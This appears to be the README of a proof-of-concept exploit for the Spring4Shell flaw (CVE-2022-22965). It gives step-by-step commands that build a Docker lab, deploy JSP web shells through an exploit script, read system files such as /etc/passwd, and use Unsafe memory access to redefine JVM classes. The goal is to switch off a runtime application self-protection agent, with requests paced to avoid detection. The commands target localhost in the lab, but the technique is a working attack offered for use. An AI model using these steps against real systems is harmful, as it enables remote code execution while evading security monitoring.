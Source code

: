 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent):
1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit-memory-abuse -f bypassing-using-memory-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit-memory-abuse
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `
![blocked.png](blocked.png)
8. Now deploy jvm base address backdoor: 
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`
![base.png](base.png)
9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
![redefineTransformerManager.png](redefineTransformerManager.png)
10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
